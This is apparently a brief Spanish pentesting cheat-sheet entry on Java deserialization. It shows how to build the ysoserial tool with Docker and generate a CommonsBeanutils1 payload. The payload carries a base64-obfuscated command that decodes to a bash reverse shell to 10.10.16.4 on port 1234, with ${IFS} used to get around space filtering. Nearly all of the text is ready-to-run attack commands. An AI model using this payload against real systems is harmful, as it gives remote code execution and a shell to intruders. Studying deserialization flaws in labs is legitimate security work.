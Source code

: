 
[[Deserialización]] de java

Herramienta para la serialización de java.

```bash
git clone https://github.com/frohoff/ysoserial?tab=readme-ov-file
cd ysoserial
docker build . -t ysoserial
```

La herramienta ofrece una variedad de cargas útiles preconstruidas que aprovechan diferentes bibliotecas y patrones de código comunes en Java que son vulnerables a la explotación de deserialización.


```bash
docker run ysoserial CommonsBeanutils1 'bash -c echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzEyMzQgMD4mMQ==|base64${IFS}-d|bash'
```
